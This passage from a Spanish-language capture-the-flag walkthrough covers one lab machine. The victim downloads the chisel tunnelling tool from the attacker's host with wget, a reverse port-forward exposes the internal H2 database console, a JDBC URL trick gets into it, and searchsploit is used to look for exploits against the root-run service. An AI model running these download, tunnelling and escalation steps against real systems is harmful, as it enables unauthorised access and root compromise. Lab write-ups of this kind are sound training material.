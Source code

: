     - en la maquina victima

        ```bash
        cd /tmp
        wget http://10.10.14.8/chisel
        chmod +x chisel
        ```

1. En la maquina de atacante creamos un servidor 

    ```bash
    ./chisel server --reverse --port 1234
    ```

1. En la maquina victima creamos un cliente 

    ```bash
    ./chisel client 10.10.14.8:1234 R:8082:127.0.0.1:8082
    ```

Ahora en firefox si vamos a la url 
```bash
 http://localhost:8082 
```
 ya podemos ver el contenido de la web.

Si pinchamos en preferencias y despues en **Permitir conexiones desde otros ordenadores** ya podemos navegar desde la
url 
```bash
 http://10.10.10.102:8082 
```
.

Aqui vemos un mensaje Wrong user name or password. Esto puede passar si la **URL JDBC** ya esta en uso. 
si cambiamos la url 
```bash
 jdbc:h2:~/test 
```
 por 
```bash
 jdbc:h2:~/EEEEEE 
```
 y pinchamos el boton conectar, Entramos en el
panel de control H2 database.

Si en la shell buscamos con el commando 
```bash
 ps -faux 
```
 y buscamos el servicio **h2** vemos que el servicio a sido lanzado por
el usuario root. Quiere decir que si ejecutamos commandos desde la consola h2, lo lanzariamos como usuario root.

Buscamos si existe un exploit para H2 console

```bash
searchsploit h2 consola
searchsploit h2 database
```
